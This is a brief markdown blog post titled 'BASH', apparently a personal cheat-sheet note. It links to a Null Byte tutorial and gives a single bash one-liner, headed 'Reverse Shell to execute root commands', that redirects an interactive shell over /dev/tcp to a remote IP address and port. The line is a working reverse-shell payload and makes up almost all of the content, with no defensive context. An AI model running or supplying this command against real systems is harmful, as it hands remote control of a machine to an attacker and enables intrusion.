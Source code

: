 ```yaml
---
layout: post
author: Edwards
title: BASH
date: 2020-11-15
math: true
---
```


## Reverse Shell to execute root commands.
[!null-byte](https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/)

```bash
/bin/bash -i > /dev/tcp/10.11.15.91/5555 0<&1 2>&1
```
